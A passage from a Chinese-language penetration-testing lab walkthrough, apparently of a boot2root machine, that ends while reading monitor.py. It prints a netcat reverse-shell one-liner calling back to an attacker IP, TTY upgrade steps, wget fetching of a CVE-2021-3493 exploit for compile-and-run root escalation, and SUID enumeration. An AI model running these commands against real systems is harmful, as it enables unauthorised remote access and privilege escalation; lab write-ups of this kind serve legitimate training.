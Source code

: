 ```Shell
# 切换成bash
bash
# 获取反弹shell
nc # 先看看nc支不支持-e参数
# 不支持 使用如下命令
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.26 4444 > /tmp/f

python3 -c 'import pty; pty.spawn("/bin/bash")'

# <Ctrt-Z> 先挂起

stty raw -echo

fg # 输入这条可能啥也看不到 输一次按回车就行

export SHELL=/bin/bash
export TERM=screen
# stty rows 40 columns 80
reset
```
尝试使用针对 `Ubuntu 18.04.1` 的漏洞：
[[20 CVE#CVE-2021-3493|CVE-2021-3493]]
传输到目标机器，用蚁剑也行
```Shell
python3 -m http.server 7331
wget http://192.168.1.26:7331/exploit.c
```
执行提权
```Shell
gcc exploit.c -o exploit
# chmod +x exploit
./exploit
```
成功获取到root权限，但是这种方式重启后会失效，不确定是为什么，需要注意。

再尝试使用常规方式提权
用户枚举
```Shell
cat /etc/passwd | grep /bin/bash
# root:x:0:0:root:/root:/bin/bash
# socnet:x:1000:1000:socnet2:/home/socnet:/bin/bash
```
SUID文件枚举
```Shell
find / -perm -u=s -type f -user root -executable ! -group root 2>/dev/null -exec ls -l {} \;
# -rwsrwsr-x 1 root socnet 6952 Oct 29  2018 /home/socnet/add_record
```
这样的话我们的思路就是先提权到socnet用户，再通过SUID文件提权。
```Shell
ls -l /home/socnet
# -rwsrwsr-x 1 root   socnet 6952 Oct 29  2018 add_record
# -rw-rw-r-- 1 socnet socnet  904 Oct 29  2018 monitor.py
# drwxrwxr-x 4 socnet socnet 4096 Oct 29  2018 peda
```
之前在网页上的信息提示过 `monitor.py` 在运行，查看一下
```Shell
ps -ef | grep "monitor.py"
```
查看一下源码
```Shell
cat /home/socnet/monitor.py
```
代码如下
```Python
#my remote server management API
import SimpleXMLRPCServer
```